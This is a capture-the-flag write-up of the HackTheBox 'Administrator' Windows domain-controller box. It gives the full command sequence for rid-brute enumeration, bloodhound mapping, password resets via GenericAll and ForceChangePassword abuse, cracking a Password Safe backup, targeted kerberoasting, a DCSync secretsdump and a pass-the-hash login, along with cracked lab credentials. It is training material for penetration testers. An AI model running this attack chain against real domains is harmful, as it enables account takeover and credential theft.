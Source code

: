 ```yaml
---
title: administrator.htb
date: 2025-02-26 
categories: [hackthebox]
tags: [windows, ad, ctf, htb, medium]
---
```


Administrator is a medium windows box on hackthebox.
We start of credentials provided to us for enumeration.

*As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: `Olivia` Password: `ichliebedich`*

## User flag
### nmap scan

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-06 22:40 CET
Nmap scan report for 10.10.11.42
Host is up (0.029s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-07 04:40:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This looks like a standard windows box with all usuall ports running on a domain controller. One thing stand out is the ftp port.
### smb enumeration

Using nxc we can enumerate existing users.

```bash
nxc smb 10.10.11.42 -u "Olivia" -p 'ichliebedich' --rid-brute
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.10.11.42     445    DC               498: ADMINISTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)                                                                                                                         
SMB         10.10.11.42     445    DC               500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB         10.10.11.42     445    DC               501: ADMINISTRATOR\Guest (SidTypeUser)
SMB         10.10.11.42     445    DC               502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB         10.10.11.42     445    DC               512: ADMINISTRATOR\Domain Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               513: ADMINISTRATOR\Domain Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               514: ADMINISTRATOR\Domain Guests (SidTypeGroup)
SMB         10.10.11.42     445    DC               515: ADMINISTRATOR\Domain Computers (SidTypeGroup)
SMB         10.10.11.42     445    DC               516: ADMINISTRATOR\Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               517: ADMINISTRATOR\Cert Publishers (SidTypeAlias)
SMB         10.10.11.42     445    DC               518: ADMINISTRATOR\Schema Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               519: ADMINISTRATOR\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               520: ADMINISTRATOR\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.42     445    DC               521: ADMINISTRATOR\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               522: ADMINISTRATOR\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.42     445    DC               525: ADMINISTRATOR\Protected Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               526: ADMINISTRATOR\Key Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               527: ADMINISTRATOR\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               553: ADMINISTRATOR\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.42     445    DC               571: ADMINISTRATOR\Allowed RODC Password Replication Group (SidTypeAlias)                                                                                                                         
SMB         10.10.11.42     445    DC               572: ADMINISTRATOR\Denied RODC Password Replication Group (SidTypeAlias)                                                                                                                          
SMB         10.10.11.42     445    DC               1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB         10.10.11.42     445    DC               1101: ADMINISTRATOR\DnsAdmins (SidTypeAlias)
SMB         10.10.11.42     445    DC               1102: ADMINISTRATOR\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.42     445    DC               1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB         10.10.11.42     445    DC               1109: ADMINISTRATOR\michael (SidTypeUser)
SMB         10.10.11.42     445    DC               1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB         10.10.11.42     445    DC               1111: ADMINISTRATOR\Share Moderators (SidTypeAlias)
SMB         10.10.11.42     445    DC               1112: ADMINISTRATOR\emily (SidTypeUser)
SMB         10.10.11.42     445    DC               1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB         10.10.11.42     445    DC               3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB         10.10.11.42     445    DC               3602: ADMINISTRATOR\emma (SidTypeUser)


```

I tried password spraying with the enumerated users and the initial password which was not successfull.

### bloodhound enumeration

Next we try to enumerate the server using bloodhound which shows us visually which user accounts exist and how those might be used to escalate privilegges.

```bash
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 14S
```


The account of olivia has GenericAll rights to the account of Michael. 
"GenericAll" is a powerful permission in Windows Active Directory that grants full control over an object.



And the account of Micheal has the "ForceChangePassword" rights to change the password of Benjamin. 


Knowing this we first can take over Michaels account and then set a password for Benjamin.

```bash
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.10.11.42" set password "Michael" "12345678"
[+] Password changed successfully!

bloodyAD -u "Michael" -p "12345678" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```


After changing the password I tried to login with both account using evil-winrm which didn't work. But we still have the ftp port found from the inital nmap scan. Using the credentials we set for Benjamin we are able to login using the ftp service.

```bash

ftp administrator.htb           
 
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:kali): Benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||62217|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
```


The ftp server contains a backup files which ends in .psafe3. After a quick google search it seems that this is a file format used by a password manager. As in many ctfs I've seen before the file most likely is password protected and encrypted. We can try to crack the password.
First we need the hash which we get with the program "pwsafe2john".
```bash
pwsafe2john Backup.psafe3  
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa
```

Afterwards we try to crack the password using john and the wordlist rockyou.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is indeed present in the rockyou files. Afterwards we can open the .psafe3 file using "Password Safe" which can be installed on kali using apt.
We get a total of 3 usernames and their passwords.

```bash
alexander:UrkIbagox
emily:UXLCI5iETUsI
emma:WwANQWnmJnGV0
```

One of those accounts can be used to login to the server using evil-winrm.
```bash
evil-winrm -i administrator.htb -u emily -p "UXLCI5iETUsI"
```

   
## Root flag

Running bloodhound again we see that emily has "GenericWrite" rights to the account of Ethan.
![[Pasted image 20250323121721.png]]

We can run a kerberoast attack and get the hash of Ethan. Which afterwards can be cracked. 

```bash
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsI" -d "Administrator.htb" --dc-ip 10.10.11.42

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Ethan has the "DSync" rights which means we can dump all the password hashes present on the server and use the passthehash technique using the hash of the administrator account an logon to the server with admin rights.

![[Pasted image 20250323122045.png]]


```bash
└─# impacket-secretsdump "Administrator.htb/ethan:"@"dc.Administrator.htb"


evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9fd20b"
   
```

## Summary

This medium-difficulty Windows machine emulates a real-world enterprise environment with a heavy focus on **Active Directory (AD)** exploitation. The challenge required thorough enumeration, abuse of AD misconfigurations, and lateral movement techniques commonly seen in real life scenarios used by red teamers. 


